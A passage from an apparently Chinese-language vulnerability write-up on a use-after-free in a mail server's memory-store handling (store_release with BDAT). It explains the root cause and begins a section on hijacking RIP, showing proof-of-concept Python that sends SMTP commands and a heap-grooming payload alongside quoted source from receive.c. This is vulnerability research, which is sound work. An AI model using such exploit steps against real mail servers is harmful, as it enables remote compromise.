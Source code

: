 ![2](images/2.png)

然后不断地发送字符，将next_text填满（初始为0x100)，然后程序就会执行到漏洞点\
在store_extend中发现由于bdat buffer的存在导致无法extend，所以执行store_get得到了next_yield指向的区域，然后调用store_release函数\
在该函数中只检查了release的参数是否为一个storeblock的开头，但是没有检查其后面有没有其它buffer，就直接将storeblock释放了\
这就导致store_get返回的地址仍然在current_block内部，但是紧接着又将current_block释放了，这样就造成了uaf

## RIP劫持
这里结合poc代码一步步讲解如何劫持rip
````python
ehlo('test')
r.sendline("MAIL FROM:<test@localhost>")
r.recvline()
r.sendline("RCPT TO:<test@localhost>")
r.recvline()
unrec('a'*0x1100+'\x7f')
````
首先发送一堆数据，该目的是为了使得yield_length小于0x130，但是大于0x30\
为什么需要这样呢？我们看看receive_msg函数的开头:
````c
...
File: receive.c
1700: received_header = header_list = header_last = store_get(sizeof(header_line));
1701: header_list->next = NULL;
1702: header_list->type = htype_old;
1703: header_list->text = NULL;
1704: header_list->slen = 0;
1705: 
1706: /* Control block for the next header to be read. */
1707: 
1708: next = store_get(sizeof(header_line));
````